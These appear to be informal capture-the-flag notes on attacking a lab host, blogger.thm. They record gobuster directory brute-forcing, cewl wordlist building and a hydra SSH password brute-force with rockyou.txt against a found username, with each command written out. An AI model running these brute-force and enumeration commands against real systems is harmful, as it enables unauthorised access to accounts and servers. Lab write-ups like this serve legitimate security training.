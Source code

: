 

#### dir bruteforcing -gobuster
1. simple
  gobuster dir -u http://172.31.227.231/ -w /usr/share/dirb/wordlists/common.txt -t 20 -o simple -f
    /assets/
    /images/
      these are default


with file
  gobuster dir -u http://172.31.227.231/ -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,html,txt -o file -f

2. detailed
  gobuster dir -u http://172.31.227.231/ -w /usr/share/dirbuster/wordlists/small -t 20 -o detailed -f
    x no interesting

with file
  gobuster dir -u http://172.31.227.231/ -w /usr/share/dirbuster/wordlists/small -t 20 -x php,html,txt -o detailed_file -f 

later
  `bak,bac,zip,back,backup,docs,xlxs`,

#### detailed inspection
oh I found users
  gather. > and 
    ssh enumeration (exploit)
      
    or just hydra brute force rightaway 
  also james
  maybe mix uppercase and lowercase
    all lower  : tr '[:upper:]' '[:lower:]'
    all upper : tr '[:lower:]' '[:upper:]'
    first capital letter  
    all different results right.
      BAKER (no the tools wasn't working)
      no I think it's not that different for speed
        ssh bruteforcing
          with rockyou.txt
            hydra -l BAKER -P /usr/share/wordlists/rockyou.txt ssh://172.31.227.231 -s 22 -V -f 
              no not support the passport authentication
          or make related wordslist with cewl
            cewl -w words.cewl http://172.31.227.231/
              to user enumeration.
          login directely


that was not valid user.
ssh key 


search more in directory /asset/blog/
  /etc/hosts
  - virutal hosting=vhost (one ip : many hostname, be able to use different directories with one ip = that's why I need to put URL instead of ip for scanning), if you see the source code ![alt text](image.png), they import from the name based
  http://blogger.thm/assets/fonts/blog/wp-login.php
